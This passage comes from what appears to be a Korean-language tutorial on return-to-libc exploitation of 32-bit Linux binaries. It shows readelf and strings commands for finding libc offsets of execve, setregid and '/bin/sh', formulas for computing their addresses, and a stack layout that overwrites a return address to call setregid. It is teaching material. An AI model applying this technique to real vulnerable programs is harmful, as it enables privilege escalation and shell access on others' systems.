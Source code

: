 0x41790이 offset이네요. 만약 현재 실행한 프로세스의 system() 함수의 주소가 0xf7df4790이라면? 0xf7df4790 - 0x41790 = 0xf7db3000이 libc의 베이스 주소가 됩니다. libc base 주소를 중심으로 execve주소 및 `/bin/sh` 문자열의 주소도 계산할 수 있습니다.

```sh
# execve offset
$ readelf -s /lib/i386-linux-gnu/libc.so.6 |grep execve
  1633: 000c9500    42 FUNC    WEAK   DEFAULT   15 execve@@GLIBC_2.0

$ readelf -s /lib/i386-linux-gnu/libc.so.6 |grep setregid
  298: 000fc480   164 FUNC    WEAK   DEFAULT   15 setregid@@GLIBC_2.0

# /bin/sh offset
$ strings -tx /lib/i386-linux-gnu/libc.so.6 |grep "/bin/sh"
 18e363 /bin/sh
```

그렇다면 우리에게 필요한 주소를 다 계산할 수 있습니다. 참! 여러분이 가지고 있는 libc 버전에 따라 offset이 달라질 수 있음을 주의하세요.

```sh
LIBC_BASE = SYSTEM_ADDR - SYSTEM_OFFSET
EXECVE_ADDR = LIBC_BASE + EXECVE_OFFSET
SETREGID_ADDR = LIBC_BASE + SETREGID_OFFSET
BINSH_ADDR = LIBC_BASE + BINSH_OFFSET
```


### setregid함수 호출

아래와 같이 stack을 구성하면 setregid 함수를 호춣할 수 있습니다. 최초 overwrite된 리턴주소로 인해 `setregid()` 함수가 호출될 것입니다. 이때 HHHH는 `setregid` 함수가 종료된 이후 리턴될 주소를 가리킵니다. (lecture1에서 함수호출시 return 주소를 stack에 push하는 것을 기억하시면 됩니다) 그 윗 부분은 함수호출에서 사용되는 인자값들이 저장됩니다. 현재는 1002, 1002가 인자값으로 들어가겠네요.


```sh

                ---------------------------
        ARG2    |          1002           |
                ---------------------------
        ARG1    |          1002           |
                ---------------------------
 return_setregid|          HHHH
                ---------------------------
        RET(1)  |        setregid()       |
                ---------------------------
        EBP     |          KKKK           |
                ---------------------------
                |          JJJJ           |
                ---------------------------
                |          IIII           |
                ---------------------------
                |          HHHH           |
                ---------------------------
                |          GGGG           |
                ---------------------------
                |           ..            |
                ---------------------------
                |          AAAA           |
                ---------------------------
```
